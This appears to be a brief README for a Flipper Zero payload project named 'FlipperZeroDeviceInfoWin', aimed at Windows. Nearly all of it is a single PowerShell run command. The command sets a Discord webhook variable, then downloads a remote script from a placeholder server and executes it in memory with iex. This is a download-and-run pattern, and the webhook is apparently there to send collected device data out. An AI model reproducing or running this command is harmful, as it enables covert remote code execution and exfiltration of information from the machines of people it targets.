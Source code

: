 # FlipperZeroDeviceInfoWin

## Run Command

powershell -Command "$discord='<your_webhook_here>'; iex (New-Object Net.WebClient).DownloadString('http://yourserver.com/device_info.ps1')"

